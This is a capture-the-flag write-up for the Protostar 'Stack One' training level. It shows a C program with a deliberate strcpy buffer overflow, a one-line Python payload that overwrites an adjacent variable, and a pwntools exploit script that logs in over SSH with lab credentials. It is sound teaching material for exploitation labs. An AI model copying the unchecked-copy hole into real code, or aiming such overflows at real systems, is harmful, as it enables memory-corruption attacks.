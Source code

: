 # Stack One

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
- If you are unfamiliar with the hexadecimal being displayed, "man ascii" is your friend.
- Protostar is little endian

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

We need to write **0x61626364** in the **modified** variable. Let's inject it with python (in little endian):

```bash
/opt/protostar/bin/stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
you have correctly got the variable to the right value
```

## Exploit

```python
#!/usr/bin/python3
from pwn import *

# Set up pwntools for the correct architecture
# exe = context.binary = ELF('stack1')

host = args.HOST or 'protostar'
port = int(args.PORT or 22)
user = args.USER or 'user'
password = args.PASSWORD or 'user'
remote_path = '/opt/protostar/bin/stack1'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    shell.ELF
    if args.GDB:
        return gdb.debug([remote_path] + argv,
                         gdbscript=gdbscript,
                         ssh=shell,
                         *a,
                         **kw)
    else:
        return shell.run([remote_path] + argv, *a, **kw)


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
#gdbscript = '''
#break *0x{exe.symbols.main:x}
#continue
#'''.format(**locals())

payload = cyclic(64) + p32(0x61626364)

io = start([payload])

log.success(io.recvline())
```